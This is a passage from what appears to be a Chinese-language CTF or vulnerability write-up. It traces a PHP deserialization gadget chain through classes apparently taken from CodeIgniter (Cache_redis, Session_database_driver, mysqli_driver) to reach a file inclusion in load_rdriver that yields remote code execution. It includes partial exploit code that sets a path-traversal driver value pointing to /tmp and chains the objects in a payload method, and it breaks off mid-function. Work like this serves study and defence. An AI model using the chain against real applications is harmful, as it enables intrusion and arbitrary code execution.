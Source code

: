 image.png

但是想要进入到load_rdriver函数，要保证前面的所有函数都正常执行，而在前面有一处sql语句执行，如果执行不成功的话就无法到load_rdriver的地方，所以我们需要正确的mysql配置来绕过

![483b3b677314e23765cde4076ff326f8.png](img/77dbaee123a0002795d141367b3e2bdc.png)

image.png

这样就可以利用这个文件包含达到RCE的效果。

写exp

因为很多属性都不是public的，而且我们要保证mysql的连接对象没有任何问题，所以我们可以通过向pop链中的类添加一些公共的set方法来覆盖其中的属性，和java bean一样

// Cache_redis

public function set($param){

$this->_redis = $param;

}

// Session_database_driver

public function set($param1){

$this->_lock = TRUE;

$this->_platform = "mysql";

$this->_db = $param1;

}

// mysqli_driver

public function set(){

$this->dbdriver = "../../../../../../../tmp/a";

}

// 控制器

public function payload(){

$obj1 = $this->cache->redis;

$obj2 = $this->session;

$obj3 = $this->db;

$obj2->set($obj3);

$obj1->set($obj2);
